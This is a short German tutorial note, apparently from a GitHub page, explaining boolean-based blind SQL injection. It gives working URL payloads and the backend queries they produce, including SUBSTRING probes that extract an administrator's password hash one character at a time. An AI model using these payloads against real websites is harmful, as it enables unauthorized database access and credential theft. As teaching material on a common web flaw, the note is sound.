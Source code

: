 Boolen Based Man stellt der Application eine true/false Frage.

# ‌Boolean Based Blind SQLi
## Beispiel
```sql
www.random.com/app.php?id\=1
// Backend
select title from product where id \=1
```
‌
### Payload #1 (FALSE):
```sql
www.random.com/app.php?id\=1 and 1\=2
//backend
select title from product where id \=1 and 1\=2
```

### Payload #2 (TRUE):
```sql
www.random.com/app.php?id\=1 and 1\=1
//backend
select title from product where id \=1 and 1\=1
````

## Beispiel 2
> User Table: Admnistrator / e3c33e889e0e1b62cb...

### Payload :
```sql
www.random.com/app.php?id\=1 and SUBSTRING((SELECT Password FROM Users WHERE Username \= 'Administrator'), 1, 1) \= 's'
Backend:
‌select title from product where id =1 and SUBSTRING((SELECT Password FROM User WHERE Username = 'Administrator'), 1, 1) ='s'
```
- "1, 1)" : Extrahiere das erste Zeichen und nur 1 Zeichen lang.
- "='s'" : Ist es ein 's'?
Wenn kein Output angezeigt wird -> Returned false -> 's' ist nicht das erste Zeichen from hashed Passwort

### Payload :
```sql
www.random.com/app.php?id\=1 and SUBSTRING((SELECT Password FROM Users WHERE Username \= 'Administrator'), 1, 1) \= 'e'
```
-> Titel der id=1 wird angezeigt -> Returned true -> 'e' ist das erste Zeichen vom hashed Passwort





Beispiel
www.random.com/app.php?id\=id\=1
